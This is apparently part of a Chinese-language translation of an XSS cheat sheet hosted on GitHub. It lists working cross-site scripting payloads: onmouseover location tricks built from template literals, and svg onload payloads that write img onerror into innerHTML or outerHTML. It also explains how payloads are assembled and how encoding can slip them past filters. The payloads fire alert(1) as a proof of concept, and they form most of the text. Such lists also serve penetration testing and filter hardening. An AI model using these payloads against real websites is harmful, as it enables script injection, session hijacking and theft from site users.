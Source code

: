 

## Location 与模板字面量

```javascript
${alert(1)}<javascript:`//onmouseover=location=tagName+URL>hoverme!
${alert(1)}<j/onmouseover=location=innerHTML+URL>javascript:`//hoverme!
${alert(1)}<javas/onmouseover=location=tagName+innerHTML+URL>cript:`//hoverme!
${alert(1)}`<javascript:`//
onmouseover=location=tagName+previousSibling.nodeValue>hoverme!
${alert(1)}`<javas/
onmouseover=location=tagName+innerHTML+previousSibling.nodeValue>cript:`hoverme!
```



## Inner & Outer HTML 属性的替代方案

**这些最后的payload利用元素的`innerHTML` 和`outerHTML`属性来实现与 `location` 相同的效果。但它们需要创建一个完整的HTML payload，而不是简单的 `"javascript:alert(1)"` 字符串。以下集合中的元素（使用索引 `0` 以便于理解）可以替换下面使用的 `head` 或 `body` 元素：`all[0]` `anchors[0]`、`embeds[0]`、`forms[0]`、`images[0]`、`links[0]` 和 `scripts[0]`。**

```javascript
<svg id=<img/src/onerror&#61alert(1)&gt; onload=head.innerHTML=id>
<svg id=<img/src/onerror&#61alert(1)&gt; onload=body.outerHTML=id>
```



## XSS payload 基础构成方案

**基本上有三种不同的方案来构建基于HTML的XSS payload。所有用于分隔字段的字符和字节都根据有效语法以下拉列表的形式展示。**

**%0X 表示从 %00 到 %0F 以及 %1X 的所有字节。“ENT” 表示 HTML 实体，意味着任何允许的字符或字节都可以使用其 HTML 实体形式（字符串和数字）。**

**最后，请注意“javascript”这个词中间可能有一些字节，也可能没有，并且它的所有字符也可以进行URL或HTML编码。**

- **payload方案1 （标签 + 事件）触发payload**

```
例子：<button onclick="alert('XSS')">Click me</button>  
```



![](https://github.com/loulan-ling/XSS-Cheat-Sheet/blob/main/XSS%20Cheat%20Sheet%E4%B8%AD%E6%96%87%E7%89%88/image-20250305112119559.png)